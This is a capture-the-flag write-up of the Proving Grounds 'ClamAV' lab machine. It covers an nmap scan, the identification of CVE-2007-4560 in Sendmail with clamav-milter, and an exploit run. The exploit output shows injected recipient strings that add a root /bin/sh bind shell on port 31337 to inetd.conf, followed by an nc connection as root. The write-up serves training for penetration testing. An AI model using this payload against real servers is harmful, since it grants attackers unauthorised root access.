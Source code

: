 ```yaml
---
title: Offensive Security Proving Grounds ClamAV Write-up
published: true
ayout: post
date: 2024-10-27 18:54 +0600
categories: [OSCP]
tags: [ctf,OSCP] 
---
```


# Machine Type: Linux

## Attack Walkthrough 


### Step 1: Service Enumeration with Nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 07:21 EDT
Warning: 192.168.248.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.248.42
Host is up (0.10s latency).
Not shown: 65347 closed tcp ports (conn-refused), 181 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.45.192], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-title: Ph33r
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-10-27T11:22:30-04:00
|_clock-skew: mean: 5h59m59s, deviation: 2h49m43s, median: 3h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.02 seconds

```


**Run Nmap Scan**: 
Use Nmap to discover open services on the target. The following services are detected: - **SSH** - **HTTP** - **SMTP** - **SMB**


**No Accessible SMB Shares**: After checking for accessible shares, none were found on the SMB service.

### Step 2: Exploit Research for SMTP Service

1. **Research SMTP Version for Exploits**: After identifying the SMTP server version, a quick search online revealed the following exploit:
    
    - **Exploit**: Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
    - **CVE**: CVE-2007-4560
    
    This exploit affects the version running on the target and is capable of remote command execution.
    
2. **Interesting Detail**: Notably, the machine's hostname is **clamav**, aligning with the exploit details. The exploit opens a new port (31337) on the target for a root shell (`/bin/sh`).


### Step 3: Executing the Exploit

1. **Run the Exploit**: Execute the exploit to open port 31337, providing access to a root shell on the target.


```
perl 4761.pl $target                                                                                                                                                                   ✔  1072  07:29:00 
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.248.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sun, 27 Oct 2024 19:38:00 -0400; (No UCE/UBE) logging access from: [192.168.251.248](FAIL)-[192.168.251.248]
250-localhost.localdomain Hello [192.168.251.248], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 49RNc0PA004595 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```


**Connect to Root Shell**: Once confirmed, connect to port 31337 to access the root shell.

```
nc -nv  $target 31337                                                                                                                                                    1 ↵  1080  15:33:58 
(UNKNOWN) [192.168.248.42] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd root
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
xxxxxxxxxxxxxxxxxxxx

```

### Conclusion

By leveraging the CVE-2007-4560 exploit, a root shell was successfully established on the target system.